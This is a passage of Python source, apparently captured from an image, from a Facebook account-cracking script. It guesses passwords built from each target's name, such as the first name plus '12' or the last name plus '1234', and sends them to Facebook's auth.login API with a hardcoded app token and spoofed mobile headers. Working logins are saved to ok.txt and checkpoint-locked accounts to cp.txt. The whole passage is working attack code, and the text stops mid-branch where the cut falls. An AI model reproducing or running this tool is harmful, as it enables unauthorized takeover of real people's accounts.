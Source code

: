 						else:

							pass3 = name.lower().split(' ')[0] + '12'

							api = 'https://b-api.facebook.com/method/auth.login'

							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

							data = requests.get(api, params=params, headers=headers_)

							if "access_token" in data.text and "EAAA" in data.text:

								print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass3+"\033[0;97m")

								ok = open("ok.txt", "a")

								ok.write(uid+"|"+pass3+"\n")

								ok.close()

								oks.append(uid+pass3)

							else:

								if "www.facebook.com" in data.json()['error_msg']:

									print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass3+"\033[0;97m")

									cp = open("cp.txt", "a")

									cp.write(uid+"|"+pass3+"\n")

									cp.close()

									cps.append(uid+pass3)

								else:

									pass4 = name.lower().split(' ')[1] + '1234'

									api = 'https://b-api.facebook.com/method/auth.login'

									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

									data = requests.get(api, params=params, headers=headers_)

									if "access_token" in data.text and "EAAA" in data.text:

										print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass4+"\033[0;97m")
